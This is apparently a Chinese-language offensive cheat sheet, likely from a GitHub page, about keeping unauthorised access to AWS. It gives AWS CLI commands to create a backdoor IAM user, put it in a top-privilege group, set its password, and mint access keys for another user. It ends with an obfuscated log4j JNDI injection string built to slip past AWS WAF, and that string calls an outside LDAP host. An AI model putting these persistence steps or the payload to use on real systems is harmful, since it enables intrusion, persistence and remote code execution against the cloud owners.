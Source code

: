   #### 新用户
	对云环境进行后门的最简单方法之一是创建一个对该环境具有完全访问权限的新用户。 使用“aws iam create-user --user-name MyUser”命令创建新用户。
	一旦你创建了这个用户，你应该把他们放在一个拥有最高权限的组中。 要将用户添加到组中，您可以使用以下命令：
	> aws iam add-user-to-group --user-name MyUser --group-name MyIamGroup
	最后使用以下命令为用户添加密码：
	> aws iam create-login-profile --user-name MyUser --password password@123.
  #### 访问密钥
	如果用户更改了密码，您将无法再访问该用户。
	但是，用户拥有的任何访问密钥仍然有效。 如果您拥有正确的权限，则可以通过为其他用户创建和下载访问密钥来后门。 这可以通过以下命令完成。
	> aws iam create-access-key --user-name MyUser
	现在您有了访问密钥，您可以将其与 AWS cli 一起使用，以该用户身份与云环境进行交互。
  ### 绕过AWS WAF进行log4j jndi注入
	${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}